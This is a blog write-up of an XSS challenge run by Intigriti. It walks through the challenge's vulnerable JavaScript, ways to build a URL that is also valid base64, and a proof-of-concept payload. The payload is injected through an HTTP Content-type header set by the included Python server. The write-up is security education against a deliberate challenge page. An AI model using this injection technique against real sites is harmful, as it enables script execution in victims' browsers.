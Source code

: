 ```yaml
---
layout: post
title:  "Intigriti XSS Challenge 2 and how I lost time to a bad assumption"
date:   2019-05-26
author: dee-see
categories: intigriti xss
---
```


[Intigriti](https://www.intigriti.com/public/) is once again offering us an [XSS challenge](https://challenge.intigriti.io/2/). The first one had cryptic code and a complicated setup between the page and an `iframe`, but this time around the code is rather straight-forward. Let's see if that makes the challenge easier. ;)

## Analyzing the code

```javascript
var b64img = window.location.hash.substr(1);
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4 && this.status == 200) {
    var reader = new FileReader();
    reader.onloadend = function() {
      document.write(`
        <a href="${b64img}" alt="${atob(b64img)}">
          <img src="${reader.result}">
        </a>`);
    }
    reader.readAsDataURL(this.response);
  }
};
xhttp.responseType = 'blob';
xhttp.open("GET", b64img, true);
xhttp.send();
```

1. The `hash` of the current page's url (minus the leading `#`) is assigned to `b64img`
2. A GET HTTP request is sent to `b64img` and the answer will be read as a [Blob](https://developer.mozilla.org/en-US/docs/Web/API/Blob)
3. If the HTTP request answers with 200, the Blob is [`readAsDataURL`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader/readAsDataURL) with a [`FileReader`](https://developer.mozilla.org/en-US/docs/Web/API/FileReader)
4. Once the Blob is read, `b64img`, `atob(b64img)` and the data URL created from the Blob are inserted into the DOM

Main observations:

- The `hash` of the URL somehow has to be a valid URL because we're making an HTTP request from it and we expect a 200 response
- That URL also has to be a valid base64 string because we're sending it to `atob(64)` which is the JavaScript function to decode base64

## Finding a valid URL

As it was the case for the last challenge, I don't care about XSS payloads yet. It's pretty clear either `b64img`, `atob(b64img)` or `reader.result` will be where we get XSS from, but there is a major challenge before getting there: crafting a valid URL that is also valid base64!

The way its coded, a value for `b64img` without a protocol (i.e.: `http://`) will make a request relative to the current domain (`https://challenge.intigriti.io/2/`). For example if `b64img` is `ABC` it will trigger a request for `https://challenge.intigriti.io/2/ABC` while if `b64img` is `http://test.com` it will trigger a request for `http://test.com`.

At this point I made the assumption that `/` wasn't a valid base64 character (worked too much with url-safe base64 implementations lately!) and lost a ton of time trying a ton of things that made no sense until [@mastjohnny](https://twitter.com/mastjohnny) made me realize that it is a valid base64 character indeed. Many hours were lost exploring data URLs, `XMLHttpRequest` and `FileReader` for strange edge cases that would help me here but I should have verified my assumption instead. :)

### Eliminating invalid characters

I started a server on my machine and tried loading [https://challenge.intigriti.io/2/#http://127.0.0.1](https://challenge.intigriti.io/2/#http://127.0.0.1). This resulted in the following (expected) error

> Uncaught DOMException: Failed to execute 'atob' on 'Window': The string to be decoded is not correctly encoded.

I need to get rid of the `.` and the `:` because they are invalid base64 characters. Two transformations are needed!

1. Remove the `.` by changing the IP to a decimal IP: `http://127.0.0.1` becomes `http://2130706433` (See [IPv4 Address Representations](https://en.wikipedia.org/wiki/IPv4#Address_representations))
2. Remove the `:` by using a protocol-relative URL: `http://2130706433` becomes `//2130706433`
    - A protocol relative url will take the protocol of the parent page

With that I try [https://challenge.intigriti.io/2/#//2130706433](https://challenge.intigriti.io/2/#//2130706433) and the result is the following error

> GET https://127.0.0.1/ net::ERR_CONNECTION_REFUSED

The request went to *https* because I'm on the https version of the challenge. Let's try [http://challenge.intigriti.io/2/#//2130706433](http://challenge.intigriti.io/2/#//2130706433)

> Access to XMLHttpRequest at 'http://127.0.0.1/' from origin 'http://challenge.intigriti.io' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.

There is no CORS header returned by my server so I need to add `Access-Control-Allow-Origin: *` to my response.

I can now reload the same URL and it loads without crashing!

## XSS time

`readAsDataURL` returns a data URL which contains the `Content-type` of the resource loaded. For example the default challenge URL loads an image that turns into the data URL `"data:application/octet-stream;base64,iVBORw0KGgoAAAANSUhEUgAAA0o..."`. This text is inserted straight into the HTML and I have control over the `Content-type` from my server so I set it to `text/" onerror="alert(document.domain)"><!--`. This is reflected in the HTML that is written in the `document.write` call like so

```html
<!-- this -->
<a href="${b64img}" alt="${atob(b64img)}">
  <img src="${reader.result}">
</a>
<!-- becomes this -->
<a href="//2130706433" alt="ÿýµßNôë\u008d÷">
  <img src="data:text/" onerror="alert(document.domain)"><!--;base64,SGVsbG8gSW50aWdyaXRpIQ=="">
</a>
```

and the result is...

![Success!]({{ '/images/intigriti_xss_victory.png' | absolute_url }})

Success! I uploaded the simple HTTP server to my VPS, changed `127.0.0.1` to its public IP and submitted my solution. There were other ways to trigger the XSS but instead of listing them here I encourage you to go on twitter and find other write-ups documenting them.

Here's the code used for my server.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        message = "Hello Intigriti!"

        self.protocol_version = "HTTP/1.1"
        self.send_response(200)
        self.send_header("Content-Length", len(message))
        self.send_header("Content-type", 'text/" onerror="alert(document.domain)"><!--')
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

        self.wfile.write(bytes(message, "utf8"))
        return

def run():
    server = ('0.0.0.0', 80)
    httpd = HTTPServer(server, RequestHandler)
    httpd.serve_forever()
run()
```

## Conclusion

Another fun challenge! This time around my key takeaways are:

- Challenge your own assumptions, they could be making the challenge harder than it really is
- Different representations of the same thing can help evade filters/validations, keep them in mind!

Thank you [@intigriti](https://twitter.com/intigriti/) and good luck to everyone for the prize!
